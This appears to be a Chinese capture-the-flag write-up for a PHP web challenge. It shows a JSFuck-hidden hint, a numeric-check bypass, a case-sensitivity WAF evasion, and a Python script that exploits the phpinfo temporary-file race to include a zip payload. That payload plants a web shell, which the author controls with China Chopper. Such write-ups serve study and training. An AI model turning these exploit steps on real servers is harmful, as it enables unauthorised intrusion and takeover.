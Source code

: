```yaml
---
title: sycshell
date: 2016-05-16
categories: tech
tags: [ctf, writeup]
---
```



题目地址: http://58.213.63.27:61180/  
<!--more-->

## 表

源文件最后附带了一行注释  
```html
<!-- 内部系统资料：http://sycshell.sycsec.com:61180/ -->
```
将 58.213.63.27 加到 hosts 里, 主页写着Give me your shell.  
还是看源文件, 注释里有jsfuck, 把最后一对括号去掉, 能得到一个函数:
  
```javascript
var test = [][(![]+[]) ... ([][[]]+[])[!+[]+!+[]]));
console.log(test.toString());
//output
function anonymous() {
if(1==2){var tip="/W0Ca1N1CaiBuDa0/read.php?f=index";}else{alert(/No Tip/);}
}
```

## 里
访问 http://sycshell.sycsec.com:61180/W0Ca1N1CaiBuDa0/read.php?f=index  
```php
<?php
show_source(__FILE__);
$pass = @$_GET['pass'];
$a = "syclover";

strlen($pass) > 15 ? die("Don't Hack me!") : "";

if(!is_numeric($pass) || preg_match('/0(x)?|-|\+|\s|^(\.|\d).*$/i',$pass)){
    die('error');
}

if($pass == 1 &&  $a[$pass] === "s"){
    $file = isset($_GET['f']) ? $_GET['f'].'.php' : 'index.php';
    @include $file;
}
```

然后超威蓝猫说pass要这样绕 `pass=%0b.1e1`  
看来要利用包含拿shell, 但是没有上传点.  
tips说有这么一个东西: http://58.213.63.27:61180/phpinfo.php  
于是知道了这个路径: `/home/wwwroot/default/phpinfo.php`, 里面还有一个信息就是 `auto_prepend_file = /home/wwwroot/waf.php`  
用read.php读一下这个waf:  
```php
<?php
if(isset($_GET['f']) && preg_match("/zip|phar/",$_GET['f'],$array)){
	die("SycWaf: Don't Hack me!");
}
```
因为正则没有指定flag i于是用大写就能绕过, 谷歌一下这几个关键词, 发现了 [zip或phar协议包含文件](http://bl4ck.in/index.php/tricks/use-zip-or-phar-to-include-file.html)   

有phpinfo的话可以 `利用phpinfo信息LFI临时文件` (谷歌一下, 已经找不到原出处了)  
于是思路就有了, github一下那篇文章的exp可以发现是真的丑, 于是自己写了个  
```python
import requests
import re
def sycs():
	url='http://sycshell.sycsec.com:61180/W0Ca1N1CaiBuDa0/read.php?pass=%0b.1e1&f=/home/wwwroot/default/phpinfo'
	pd = 'a' * 8
	r = requests.post(url, files={ 'damn':open('out.zip','rb').read() }, headers = {
		'HTTP_ACCEPT': pd,
		'HTTP_USER_AGENT': pd,
		'HTTP_ACCEPT_LANGUAGE': pd,
		'HTTP_PRAGMA': pd
	})
	filename = re.findall(r' (/tmp/.*)',r.content)[0]

	url2 = 'http://sycshell.sycsec.com:61180/W0Ca1N1CaiBuDa0/read.php?pass=%0b.1e1&f=ziP://' + filename + '%23a' # 这会被read.php加上'.php'
	print url2
	r = requests.post(url2)
	txt = r.content
	return txt.find('ok')
i=1
while True:
	i += 1
	r = sycs()
	if r != -1:
		print 'ok' # 在run.php中echo了ok
		break
```

因为一开始代码写错, '#' 应该用 '%23' 表示, 所以参考原脚本加了pd, 后来发现根本没用嘛 ╮(~▽~)╭, 一次成功  

out.zip这样构造:  
```php
<?php
    $file = 'out.zip';
    $phar = new PharData(__DIR__ . '/' . $file, 0, $file, Phar::ZIP);
    $phar->startBuffering();
    $x = file_get_contents('./run.php');
    $phar->addFromString('a.php',$x);
    $phar->stopBuffering();
?>
```
run.php 就是种shell的脚本, 保险起见放在了 /tmp , 毕竟谁都可以写  
最后再用read.php+菜刀一砍, 就拿到了flag  